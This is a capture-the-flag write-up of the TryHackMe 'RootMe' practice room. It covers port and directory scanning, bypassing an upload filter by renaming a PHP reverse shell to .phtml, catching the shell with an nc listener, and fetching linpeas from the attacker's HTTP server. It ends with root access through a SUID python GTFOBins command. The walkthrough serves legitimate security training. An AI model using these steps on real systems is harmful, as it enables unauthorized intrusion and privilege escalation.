 # [RootMe - A ctf for beginners, can you root me?](https://tryhackme.com/r/room/rrootme)

## Reconnaissance

### Nmap
Starting off by scanning with nmap, we will get some insights about open ports on the target, as well as information about the software running on these ports.
```sh
nmap -sC -sV <IP> -Pn
```
Essentially, we get two important information
- two open ports, 22 (ssh) and 80 (http)
- version information -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3, Apache httpd 2.4.29 ((Ubuntu))

Since we most likely will mainly deal with the HTTP-server, I wanted to verify the version of Apache we got back from the nmap scan. To do that, we can use a tool like `curl` for banner grabbing.
In my case, I used curl.
```sh
curl -I <IP>
```
curls output is: `Server: Apache/2.4.29 (Ubuntu)`
So far so good!

### Gobuster
Next up, I went to do a directory enumeration scan for hidden and interesting directories we may use for unauthorized access and exploitation.
```sh
gobuster dir -u <IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
As a result, we get two interesting directories, `/panel/` and `/upload/`.
![gobuster](images/gobuster.png)

## Getting a shell
To get a quick overview what we have to deal with, I simply visited `<IP>/panel/` and `<IP>/upload/`.
- `<IP>/upload/` seems to list our uploaded files, meaning we can easily execute code
- `<IP>/panel/` gives us the ability to upload files to the web-server

As a consequence, I tried to upload a `.php` script to see if it is going through, because that would allow us to easily create a reverse shell. It seems like there is a filename-check denying *.php files from getting uploaded.
![uploaddenied](images/php.png)

After changing the name to `.phtml`, the file went through!
![uploadaccepted](images/phtml.png)

Code-wise, I used the [php-reverse-shell template within kali linux](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads).

Now we just need to set up a listener on our attacker system and we have to execute the uploaded script on the victims web-server.
Listener on the attackers system:
```sh
nc -lvnp 9001
```
To execute the uploaded script, we just need to visit `<IP>/uploads` again.
![upload](images/upload.png)

We end up getting a reverse shell.
After transforming it into a tty with
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```
all we have to do to get the user flag is 
```sh
cd ~
cat user.txt
```
Output: THM{XXX_XXX_X_XXXXX}

## Privilege escalation
Before even manually searching, I just got [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the web-server. Linpeas is a script that searches for possible privilege escalation paths.
To get it on the web-server, I downloaded the linpeas.sh locally, set up a python http-server on the attacker machine `python3 -m http.server 8000` and grabbed the file with curl from our shell(`curl <MY-IP>:8000/linenum.sh -o linenum.sh`).
After executing, `/usr/bin/python` looks really promising due to the SUID bit set and we can use it to gain root access. 
![linpeas](images/linpeas.png)
A quick research on GTFOBins brings me to [this](https://gtfobins.github.io/gtfobins/python/), which should do the job (the SUID section). We just need to execute
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and we end up successfully utilizing this vulnerability to gain root access.
To get the flag, we just have to
```sh
cd /root
cat root.txt
```
Output: THM{XXXXXXXXX_XXXXXXXXXX}


        
